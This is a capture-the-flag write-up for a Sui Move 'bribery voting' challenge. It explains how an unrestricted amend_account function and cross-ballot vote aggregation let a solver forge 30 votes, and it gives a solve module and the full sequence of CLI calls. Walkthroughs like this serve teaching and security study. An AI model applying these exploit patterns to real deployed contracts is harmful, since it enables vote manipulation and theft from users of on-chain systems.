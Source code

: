 # Week 3

In [week 3](./bribery_voting/), we are given a slightly more complicated contract about ballot and voting. As per rules:

1. Everyone can register to become candidate
2. Candidates are allowed to change their registered account
3. Everyone can get ballot
4. Ballot contains 10 voting power to vote for the candidates
5. Briber will give you the flag if you have proof of giving certain candidate 21 votes

```rust
public fun get_flag(
    briber: &mut Briber,
    ballot: &Ballot,
    github_id: String,
    ctx: &TxContext,
) {
    let ballot_id = ballot.id();
    assert!(!briber.given_list.contains(ballot_id));
    let votes = ballot.voted().try_get(&required_candidate());
    assert!(votes.is_some());
    assert!(votes.destroy_some() >= required_votes());
    flag::emit_flag(ctx.sender(), ballot.id().to_address().to_string(), github_id);
    briber.given_list.add(ballot_id, true);
}
```

Since `Briber` will be created as a shared object upon contract deployment, our goal is to forge a `Ballot` where `0xbad` has more than 20 votes.

There are a few issues that we spotted:

```rust
public fun amend_account(
    candiate: &mut Candidate,
    account: address,
) {
    candiate.account = account;
}
```

In `candidate.move`, anyone can call `amend_account` to edit candidate's account. Therefore we can use it to change the account from `ctx.sender()` (us) to `0xbad`.

```rust
public fun vote(
    candiate: &mut Candidate,
    request: &mut VoteRequest,
    amount: u64,
) {
    let gain_votes = request.deduct_voting_power(candiate.account, amount);
    candiate.total_votes = candiate.total_votes + gain_votes;
}

public(package) fun deduct_voting_power(
    request: &mut VoteRequest,
    candidate: address,
    amount: u64,
): u64 {
    let change = request.voting_power.min(amount);
    request.voting_power = request.voting_power - change;
    if (request.voted.contains(&candidate)) {
        let v = request.voted.get_mut(&candidate);
        *v = *v + change;
    } else {
        request.voted.insert(candidate, change);
    };
    change
}
```

We are calling `vote` with a candidate and `VoteRequest`. This seems fine but when you look at `finish_voting`:

```rust
public fun finish_voting(ballot: &mut Ballot, request: VoteRequest) {
    let VoteRequest {
        voting_power: _,
        voted,
    } = request;
    let (candidates, votes) = voted.into_keys_values();
    candidates.zip_do!(votes, |c, v| {
        let ballot_voted = &mut ballot.voted;
        let already_voted = ballot_voted.try_get(&c);
        if (already_voted.is_some()) {
            *ballot_voted.get_mut(&c) = already_voted.destroy_some() + v;
        } else {
            ballot_voted.insert(c, v);
        }
    });
}
```

We are able to obtain multiple `VoteRequest` from other ballots for voting and thus increase the original ballot.

The exploit step is as follows:

1. `candidate::register` -> get candidate C
2. `candidate::amend_account` C.account=@0xbad
3. call `get_ballot` to get ballot1
4. `request_vote(ballot1)` for VoteRequest1 + `candidate::vote(C, VoteRequest1, 10)` + `finish_voting(ballot1, VoteRequest1)` -> ballot1.voted: (@0xbad, 10)
5. call `get_ballot` to get ballot2
6. `request_vote(ballot2)` for VoteRequest2 + `candidate::vote(C, VoteRequest2, 10)` + `finish_voting(ballot1, VoteRequest2)` -> ballot1.voted: (@0xbad, 20)
7. repeat and get 30 votes and finally call `get_flag(briber, ballot1)`

To do this, we first write a `solve_bribery_voting.move`:

```rust
module solve_bribery_voting::solve {
    use bribery_voting::ballot::{Ballot, request_vote, finish_voting};
    use bribery_voting::candidate::{Candidate, vote};

    public fun solve_request_vote(candidate: &mut Candidate, ballot: &mut Ballot, _ctx: &mut TxContext) {
        let mut vote_request = request_vote(ballot);
        vote(candidate, &mut vote_request, 10);
        finish_voting(ballot, vote_request);
    }

    public fun solve_request_vote_subsequent(candidate: &mut Candidate, ballot1: &mut Ballot, ballot2: &mut Ballot, _ctx: &mut TxContext) {
        let mut vote_request = request_vote(ballot2);
        vote(candidate, &mut vote_request, 10);
        finish_voting(ballot1, vote_request);
    }
}
```

This is simple - `solve_request_vote` gets the original ballot, while `solve_request_vote_subsequent` gets the following ballots used for requesting vote. Note that `request_vote` uses ballot2 while `finish_voting` is always on original ballot1.

After deploying the above contract, we can use Client CLI to solve:

```bash
# 0. candidate::register -> get candidate C
export PACKAGEID=0xba87679dae089213e3efed1330cfc02746af3dc27ce4a45f7066de1ef440d34e
export BRIBER=0xe6df370877f7b659a6aa28e58e6b54f839147523e5570b70e8ae00a7a34a2295
sui client call --package $PACKAGEID --module candidate --function register --gas-budget 100000000
export CANDIDATE=0xadeb22cdd2b2bc84898559528fb73261f55393e5889faf1bcabc0b4aec758d53

# 1. candidate::amend_account C.account=@0xbad
export BAD=0x0000000000000000000000000000000000000000000000000000000000000bad
sui client call --package $PACKAGEID --module candidate --function amend_account --args $CANDIDATE $BAD --gas-budget 100000000

# 2. call get_ballot to get ballot1
sui client call --package $PACKAGEID --module ballot --function get_ballot --gas-budget 100000000
export BALLOT1=0x8b9d30d26698dc98656754d027fbdde7b2e91842904ae186cb2d16bf300e9875

# 3. request_vote for VoteRequest1 + candidate::vote(C, VoteRequest1, 10) + finish_voting(ballot1, VoteRequest1) -> ballot1.voted: (@0xbad, 10)
export SOLVE=0xf40ec31c3fa9ebf1a72125d556eeb12e9d74368f14c36a142eeb89d27f4b295a
sui client call --package $SOLVE --module solve --function solve_request_vote --args $CANDIDATE $BALLOT1 --gas-budget 100000000
sui client object $BALLOT1 # value │  10

# 4. call get_ballot to get ballot2
sui client call --package $PACKAGEID --module ballot --function get_ballot --gas-budget 100000000
export BALLOT2=0xfa556e82093f8a11bacc3f9df378dd35532c4ba96e8d4e90ac6f0e7e1807c041

# 5. request_vote for VoteRequest2 + candidate::vote(C, VoteRequest2, 10) + finish_voting(ballot1, VoteRequest2) -> ballot1.voted: (@0xbad, 20)
sui client call --package $SOLVE --module solve --function solve_request_vote_subsequent --args $CANDIDATE $BALLOT1 $BALLOT2 --gas-budget 100000000
sui client object $BALLOT1 # value │  20

# 6. repeat and get 30 votes and finally call get_flag(briber, ballot1)
sui client call --package $PACKAGEID --module ballot --function get_ballot --gas-budget 100000000
export BALLOT3=0x7af30350ff8399937a47e0e6f478f8a4309179ce6fbf56a1f4f834c0ed40305f
sui client call --package $SOLVE --module solve --function solve_request_vote_subsequent --args $CANDIDATE $BALLOT1 $BALLOT3 --gas-budget 100000000
sui client call --package $PACKAGEID --module briber --function get_flag --args $BRIBER $BALLOT1 562e56bf-137f-4d17-89e1-390d90082ff9 --gas-budget 100000000
```